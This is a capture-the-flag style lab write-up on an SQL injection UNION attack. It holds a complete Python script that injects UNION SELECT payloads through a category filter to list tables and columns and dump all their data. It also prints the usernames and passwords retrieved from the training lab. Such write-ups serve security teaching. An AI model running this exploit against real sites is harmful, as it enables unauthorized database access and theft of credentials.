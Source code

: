 # Lab: SQL injection UNION attack, retrieving data from other tables

URL: 


## Sitemap:


## Identification:




## Exploitation:

By running the exploit we get:

Table: users and column password
['xa3lb1d63rbj5ih0xwyh','f5qoj9w699dyt9x4vh39','8trn27i14i20jqaeh0lo']
Table: users and column username
['carlos', 'administrator', 'wiener']



## Automation:

<b>This script dumps the entire schema</b>

```python
#!/usr/bin/python3
##
import requests
import re
import pwn
##
Payload1="/filter?category='+UNION+SELECT+NULL,CAST("
#
def get_current_db(URL):
    padding="current_database()"
    Payload2="as+varchar)--+-"
    send=URL+Payload1+padding+Payload2
    r=requests.get(send)
    db=str(re.findall("td.*", r.text)).split('>')[1].split('<')[0]
    return db
##
def get_current_schema(URL):
    padding="current_schema()"
    Payload2="as+varchar)--+-"
    send=URL+Payload1+padding+Payload2
    r=requests.get(send)
    db=str(re.findall("td.*", r.text)).split('>')[1].split('<')[0]
    return db
##
def get_tables(URL,schema):
    padding=f"table_name+as+varchar)+from+information_schema.tables+WHERE+table_schema+%3d+'{schema}'--+-"
    send=URL+Payload1+padding
    r=requests.get(send)
    tb=[]
    for X in(re.findall("td.*", r.text)):
        tb.append(X.split('>')[1].split('<')[0])
    return tb
##
def get_columns(URL,table,schema):
    padding=f"COLUMN_NAME+as+varchar)+from+information_schema.columns+where+table_name%3d'{table}'--+-"
    send=URL+Payload1+padding
    r=requests.get(send)
    cols=[]
    for X in (re.findall("td.*", r.text)):
        cols.append(X.split('>')[1].split('<')[0] )
    return cols
##
def get_data(URL,col,table):
    padding=f"{col}+as+varchar)+from+{table}--+-"
    send=URL+Payload1+padding
    r=requests.get(send)
    dat=[]
    for X in (re.findall("td.*", r.text)):
        dat.append(X.split('>')[1].split('<')[0] )
    return dat
##
def main(URL):
    db=get_current_db(URL)
    print(f"Databse: {db}")
    #
    schema=get_current_schema(URL)
    print(f"Schema: {schema}")
    #
    tables=get_tables(URL,schema)
    print(f"Tables: {tables}")
    #
    for X in tables:
        print(f"For table {X}:")
        tmp=get_columns(URL,X,schema)
        print(tmp)
        for Y in tmp:
            print(f"Table: {X} and column {Y}")
            data=get_data(URL,Y,X)
            print(data)
##
main("https://0a2400b7041a30d080daeeeb00a400d1.web-security-academy.net")
```

